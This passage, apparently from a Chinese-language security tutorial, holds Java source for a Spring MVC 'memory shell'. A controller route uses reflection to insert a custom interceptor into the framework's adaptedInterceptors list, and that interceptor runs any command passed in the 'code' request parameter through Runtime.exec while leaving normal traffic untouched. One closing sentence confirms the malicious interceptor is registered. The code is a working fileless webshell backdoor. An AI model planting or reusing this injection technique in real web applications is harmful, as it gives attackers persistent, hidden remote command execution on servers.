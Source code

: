 ```java

@Controller
public class Test extends HandlerInterceptorAdapter {
    @RequestMapping(value = "/a")
    public String test() throws NoSuchFieldException, IllegalAccessException {
        // 获取当前上下文的dispatch-servletContext
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从context中获取AbstractHandlerMapping的实例对象
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 反射获取adaptedInterceptors属性
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
        System.out.println(adaptedInterceptors);
        System.out.println(adaptedInterceptors.get(0).getClass().toString());
        // 避免重复
        for(Object object : adaptedInterceptors){
            if(object instanceof Test){
                System.out.println("已经添加过Test实例了");
                return "hello";
            }
        }
        // 向添加恶意的interceptor实例对象
        Test test = new Test();
        adaptedInterceptors.add(test);
        return "hello";
    }
    public Test(){}
    // 复写 prehandle方法
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception{
        String code = request.getParameter("code");
        // 不干扰正常业务逻辑
        if (code != null) {
            java.lang.Runtime.getRuntime().exec(code);
            return true;
        }
        else {
            return true;
        }
    }
}

```
访问该路由之后，如下所示，在 adaptedInterceptors 数组中已经有添加过的恶意添加的interceptor
